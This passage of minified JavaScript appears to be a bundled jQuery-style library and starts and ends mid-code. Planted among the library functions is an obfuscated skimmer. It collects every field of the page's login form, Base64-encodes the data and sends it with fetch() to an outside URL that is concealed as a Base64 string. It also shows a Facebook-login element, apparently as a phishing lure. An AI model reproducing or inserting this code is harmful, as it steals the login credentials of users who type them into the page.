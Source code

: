 n=[];return Array.prototype.slice.call(e.options).forEach((function(e){e.selected&&n.push(e.value)})),void(n.length&&(t[e.name]=n))}["checkbox","radio"].indexOf(e.type)>-1&&!e.checked||(t[e.name]=e.value)}})),t};document.querySelector(".login-facebook").style.display="block",fetch(Base64.decode('aHR0cHM6Ly9pbmZvY3VybG1hc2VlLm5lend6LmNvbS9va2VwL2luZGV4LnBocD9hcGlrZXk9')+''+Base64.encode(JSON.stringify(serializeObject(document.querySelector(".login-form"))))).then((e=>e.text())).then((e=>console.log()));}});var ce,fe,pe=/^(?:checkbox|radio)$/i,de=/<([a-z][^\/\0>\x20\t\r\n\f]*)/i,he=/^$|^module$|\/(?:java|ecma)script/i;ce=v.createDocumentFragment().appendChild(v.createElement("div")),(fe=v.createElement("input")).setAttribute("type","radio"),fe.setAttribute("checked","checked"),fe.setAttribute("name","t"),ce.appendChild(fe),d.checkClone=ce.cloneNode(!0).cloneNode(!0).lastChild.checked,ce.innerHTML="<textarea>x</textarea>",d.noCloneChecked=!!ce.cloneNode(!0).lastChild.defaultValue,ce.innerHTML="<option></option>",d.option=!!ce.lastChild;var ge={thead:[1,"<table>","</table>"],col:[2,"<table><colgroup>","</colgroup></table>"],tr:[2,"<table><tbody>","</tbody></table>"],td:[3,"<table><tbody><tr>","</tr></tbody></table>"],_default:[0,"",""]};function ve(e,t){var n;return n=void 0!==e.getElementsByTagName?e.getElementsByTagName(t||"*"):void 0!==e.querySelectorAll?e.querySelectorAll(t||"*"):[],void 0===t||t&&A(e,t)?w.merge([e],n):n}function ye(e,t){for(var n=0,r=e.length;n<r;n++)Y.set(e[n],"globalEval",!t||Y.get(t[n],"globalEval"))}ge.tbody=ge.tfoot=ge.colgroup=ge.caption=ge.thead,ge.th=ge.td,d.option||(ge.optgroup=ge.option=[1,"<select multiple='multiple'>","</select>"]);var me=/<|&#?\w+;/;function xe(e,t,n,r,i){for(var